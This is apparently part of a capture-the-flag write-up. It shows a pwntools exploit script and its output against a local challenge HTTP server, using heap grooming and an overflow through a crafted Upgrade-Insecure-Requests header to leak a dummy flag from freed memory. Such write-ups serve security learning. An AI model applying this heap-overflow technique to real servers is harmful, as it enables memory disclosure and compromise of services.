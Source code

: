 
```
[+] Opening connection to 127.0.0.1 on port 1337: Done
b'HTTP/1.1 200 Ok\r\n'
[+] Opening connection to 127.0.0.1 on port 1337: Done
b'HTTP/1.1 200 Ok\r\n'
[+] Opening connection to 127.0.0.1 on port 1337: Done
b'HTTP/1.1 200 Ok\r\n'
[+] Opening connection to 127.0.0.1 on port 1337: Done
b'HTTP/1.1 200 Ok\r\n'
[+] Opening connection to 127.0.0.1 on port 1337: Done
[+] Receiving all data: Done (220B)
[*] Closed connection to 127.0.0.1 port 1337
b'HTTP/1.1 200 Ok\r\nContent-Type: text/html;charset=utf-8\r\n\r\n<p>commoner: AAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAflag{fake_flag_for_testing}\r</p>'
[*] Closed connection to 127.0.0.1 port 1337
[*] Closed connection to 127.0.0.1 port 1337
[*] Closed connection to 127.0.0.1 port 1337
[*] Closed connection to 127.0.0.1 port 1337

[Process exited 0]
```

### Exploit Script

```py
from pwn import *

def payload(method, path, host="", cookie="", ua="", cl="256", uir="upgrade-insecure"):
    payload = f"{method} {path} HTTP/1.1\n"
    payload += f"Content-Length: {cl}\n"
    payload += f"Upgrade-Insecure-Requests: {uir}\n"
    payload += "\r"
    return payload

HOST = "127.0.0.1"
PORT = 1337

# we do this to groom our heap such that the flag remains on the heap despite being free-ed
for i in range(4):
    p = remote(HOST, PORT)
    p.sendline(b"GET /report?fb= HTTP/1.1\n\r\n")
    print(p.recvline())
    sleep(3)

p = remote(HOST, PORT)

# content length = str(0x1) allocates 1 byte for the request body
# upgrade insecure request = str(0x700deadbeef) overflows and modifies content length to 0x700
p.sendline(payload("POST", "/comment", cl=str(0x1), uir=str(0x700deadbeef)).encode())

# we pad between our request body to the flag on the heap
p.send(b"comment=" + b"A"*0x75)

# the program will crash since we have smashed the heap, but we have completed our objective
print(repr(p.recvall()))
```
